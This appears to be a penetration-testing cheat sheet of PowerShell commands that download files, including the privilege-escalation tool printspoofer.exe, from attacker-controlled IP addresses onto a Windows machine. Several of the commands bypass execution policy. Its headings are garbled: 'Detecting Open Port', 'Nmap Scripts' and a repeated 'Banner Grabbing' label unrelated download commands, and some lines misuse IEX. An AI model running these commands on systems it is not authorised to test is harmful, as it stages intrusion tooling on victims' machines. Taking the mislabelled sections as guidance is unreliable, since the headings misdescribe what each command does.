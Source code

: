 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### Detecting Open Port
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Nmap Scripts**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Banner Grabbing**
	
    $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')

**Banner Grabbing**
	
    iwr -uri http://192.168.45.240/printspoofer.exe -Outfile printspoofer.exe

**Banner Grabbing**
	
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt')

**Banner Grabbing**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

**Banner Grabbing**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile

**Banner Grabbing**
	
    powershell.exe -c wget "http://10.10.14.17/demo.txt" -outfile "c:\temp\demo.txt"

**Banner Grabbing**
	
    powershell.exe -c "curl.exe http://10.10.10.10:80/demo.txt c:\temp\demo.txt"	

**Banner Grabbing**
	
    powershell.exe Invoke-RestMethod -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Banner Grabbing**
	
    powershell.exe Invoke-webRequest -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Banner Grabbing**
	
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://10.10.10.10/demo.txt"' >> wget.ps1
    echo '$file = "c:\temp\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
